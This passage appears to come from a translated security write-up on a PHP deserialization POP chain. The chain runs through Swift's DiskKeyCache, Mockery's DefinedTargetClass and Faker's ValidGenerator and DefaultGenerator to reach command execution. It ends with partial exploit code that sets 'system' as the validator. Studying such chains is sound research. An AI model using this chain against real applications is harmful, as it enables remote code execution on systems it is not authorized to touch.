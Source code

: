 ```php
?>
```
### POP chain utilization flow chart

![undefined](https://p4.ssl.qhimg.com/t016d292a9d69431ac1.png "undefined")

## POP Chain-8
Follow up on the `__destruct()` method in `lib/classes/Swift/KeyCache/DiskKeyCache.php`, where `$this->_keys` is controllable

![undefined](https://p3.ssl.qhimg.com/t013ca6184c5c91be9d.png "undefined")

Continue to look at the `clearAll()` method called in foreach. When `array_key_exists()` is judged to be true, enter foreach, and then call the `clearKey()` method. After entering if judgment, call the `hasKey()` method. Since the `$this->_path` here is controllable, you can assign it a value to a class name to trigger the `__toString()` method in this class

![undefined](https://p4.ssl.qhimg.com/t012a9c30fd94199e4b.png "undefined")

Here you can select the `__toString()` method in `library/Mockery/Generator/DefinedTargetClass.php` as the trigger point. It will first call the `getName()` method, and the `$this->rfc` in the method is controllable, so you can trigger a class without the `getName()` method to trigger the `__call()` method in the class.

![undefined](https://p5.ssl.qhimg.com/t014698c2b0cbc67092.png "undefined")

Search the `__call()` method globally, follow up with the `__call()` method in `src/Faker/ValidGenerator.php`. The `$this->validator` in the while statement is controllable. When `$res` can be a parameter of the command execution function, the command execution RCE can be triggered. Since `$this->generator` is also controllable, you can find a method class that can return parameter values ​​to achieve the purpose of returning command execution function parameters and thus RCE

![undefined](https://p0.ssl.qhimg.com/t017d6656e10983d2b4.png "undefined")

Here you can use `src/Faker/DefaultGenerator.php` as the trigger point. When the currently set method does not exist, the `__call()` method will be triggered, thereby returning the value of the controllable parameter `$this->default`
 
![undefined](https://p1.ssl.qhimg.com/t01a495401089c8e278.png "undefined")

### exp
```php
<?php
namespace Faker {
    class DefaultGenerator {
        protected $default;
        public function __construct($payload) {
            $this->default = $payload;
        }
    }
    class ValidGenerator {
        protected $generator;
        protected $validator;
        protected $maxRetries;
        public function __construct($payload) {
            $this->generator = new DefaultGenerator($payload);
            $this->validator = "system";
            $this->maxRetries = 1; // If the value is not set, it is repeated 10,000 times by default.
        }
    }
}
```